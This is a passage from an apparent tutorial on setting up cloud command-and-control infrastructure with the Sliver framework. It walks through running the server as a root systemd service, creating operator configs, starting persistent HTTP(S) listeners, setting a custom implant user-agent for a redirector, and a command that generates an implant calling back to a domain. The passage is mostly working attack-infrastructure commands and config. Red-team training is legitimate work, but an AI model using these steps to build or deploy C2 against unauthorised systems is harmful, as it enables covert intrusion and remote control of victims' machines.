 Next, we want to configure the sliver server to run on a specific port at startup with listeners already running. We'll also need to generate operator configs to connect to the server from a sliver client. Edit `/root/.sliver/configs/server.json` and change `port` to a value of your choice.

We'll create a service to start sliver on startup. Create the file `/etc/systemd/system/sliver.service` with the following configuration:

```text
[Unit]
Description=Sliver
After=network.target
StartLimitIntervalSec=0

[Service]
Type=simple
Restart=always
RestartSec=3
User=root
ExecStart=/usr/bin/sliver-server daemon

[Install]
WantedBy=multi-user.target
```

Next, run `systemctl enable sliver` and `systemctl start sliver`, sliver should now be running on the port you configured. This can be verified with `systemctl status sliver`.

![Sliver Status](security/cloud-c2/sliver-status.png)

Next, generate an operator config to connect to the Sliver server. This can be done by running `sliver-server operator --name [name] --lhost [pub ip] --save [name].cfg --lport [sliver port]`. Copy this file to the host you'd like to use as a Sliver client, and drop it in `/home/[user]/.sliver-client/configs`. Test that you're able to connect with the `sliver` command. If this doesn't work; there's likely an issue with either your firewall configuration, or Oracle Cloud ingress rules.

![Successful Sliver Connection](security/cloud-c2/sliver-connection.png)

From the Sliver console, we need to start some listeners for the implants to communicate with. Run `https -p` and `http -p` to start persistent HTTP(s) listeners. If you run `jobs` you should see the two listeners present.

![Sliver Jobs](security/cloud-c2/sliver-listeners.png)

Now there should be a `/root/.sliver/configs/http-c2.json` file on the Sliver server, this dictates how implants will communicate. We're going to edit the `user-agent` string to be a custom value. The user agent is the string identifying the web client making a request, ex. `Chrome/5.0 (erm; Windows 11; super legit user agent string)`, we'll use this custom value later when configuring the redirector. Save the config file and reload Sliver with `systemctl reload sliver`

Lastly, from the Sliver console generate an HTTP implant to test our configuration later with `generate --http api.websitename.com/some/path --os [windows/linux] --arch amd64 --skip-symbols`. This implant will call out to the Nginx server on `/some/path` using the custom user agent we defined in the Sliver config.

### Nginx
